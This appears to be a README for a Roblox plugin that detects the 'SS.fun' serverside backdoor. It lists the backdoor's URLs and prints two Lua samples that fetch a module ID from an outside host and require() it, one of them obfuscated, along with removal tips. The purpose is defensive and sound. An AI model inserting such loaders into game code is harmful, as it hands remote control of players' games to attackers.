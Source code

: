 ### Hello guys, please read carefully.
# 1. Links

    - https://assetdelivery.org
is SS.fun's first link.
It only works when you're in the game (not in the studio).
It checks the user agent (I've tested it).
If you see this URL, please remove it.

Example code:



```ruby
task.spawn(function()
	pcall(function()
		local newThreadedCall = coroutine.wrap(pcall)
		for _ in newThreadedCall, (select and require), tonumber(game:service("HttpService"):GetAsync("https://assetdelivery.org")) do
		end
	end)
end)
```

    - https://api.serverside.fun/v1/stat
is SS.fun's second link.
It works the same as the first link, only in-game (not in the studio).
If you see this URL, please remove it.

Example code:


```lua
local module = {}
pcall(function()
	local HttpService = game:GetService("HttpService")
	local response = HttpService:GetAsync('https://api.serverside.fun/v1/stat')
	local data = HttpService:JSONDecode(response)
	if(data["id"]) then
		local numbers = string.gsub(data["id"], "%D", "")
		require(tonumber(numbers)) 
	end
end)
return module
```

# 2. FAQ

    - How can I delete it?
First, open the plugin and it will start scanning the game. If it cannot find the module, you will need to find it manually. Advice: go to the webhook, find  the location and start from there.
    
    - I can't find it, what can I do?
Come to our Discord.

# End

Sorry for my not-so-good English

Thanks for listening to my TED talk.
